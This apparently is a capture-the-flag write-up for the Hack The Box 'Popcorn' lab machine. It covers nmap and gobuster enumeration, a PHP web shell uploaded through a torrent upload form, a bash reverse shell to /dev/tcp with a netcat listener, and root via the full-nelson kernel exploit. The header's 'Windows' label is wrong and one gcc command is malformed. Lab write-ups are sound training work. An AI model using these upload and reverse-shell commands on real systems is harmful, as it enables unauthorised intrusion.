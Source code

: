 # Popcorn - Machine

IP 10.10.10.6
Windows Medium

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools
- Nmap
- gobuster / dirb / dirbuster
- Burp Suite Community Edition / OWASP ZAP
- NetCat
- linux-exploit-suggester.sh /SearchExploit (OFFSEC exploitDB) / Google

## Enumeration

- Nmap with `nmap -A 10.10.10.6` gives two open ports, port 22 for ssh and 80 for http.
- On port 80 running gobuster with `gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40` gives some links as output. Output shows some links, `/test`, `/index`, `/torrent` etc.
- `/test` page shows `phpinfo` allowed file upload.
- On `/torrent` page we can see sign up and log in option. 


## Exploitation

- After loggin in we can use the upload option. During uploading torrent file, we can modify filename and filecontent to php shell code with burp suite or OWASP ZAP.
- We can goto `/torrent/upload` directory to get our file and simple `curl http://10.10.10.6/torrent/upload/3like1share3folllow3subscribe7.php?test=whoami` will execute command on the server.
- Running netcat client on host with `nc -lvnp 1337` and command `curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "test=bash -c 'bash -i >& /dev/tcp/10.10.14.100/1337 0>&1'"` will give us shell as user `www-data`.
- Now we can simply get `user.txt` as `www-data` for user `george` with command `cat /home/george/user.txt`.
  ```bash
  www-data@popcorn: ls /home
  george
  www-data@popcorn: cat /home/george/user.txt
  userflaglikesharesubscribefollow
  ```

## Priviledge Escalation

- After importing linux-exploit-suggester.sh we can get a lot of priviledge escalation exploits.
- One of them is full-nelson (http://vulnfactory.org/exploits/full-nelson.c). After importing it to the machine, we can compile it with `gcc full-nelson.c -o full-nelson`.
- Then We get root and root flag.
  ```bash
  www-data@popcorn:tmp$ gcc full-nelson.c - exploit
  gcc full-nelson.c - exploit
  www-data@popcorn:tmp$ chmod +x exploit
  chmod +x exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  ./exploit
  id
  uid=0(root) gid=0(root)
  cat /root/root.txt
  rootflaglikesharesubscribefollow
  ```
- Also dirtycow, motd and many other exploits are possible. As the server kernel version is too old.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
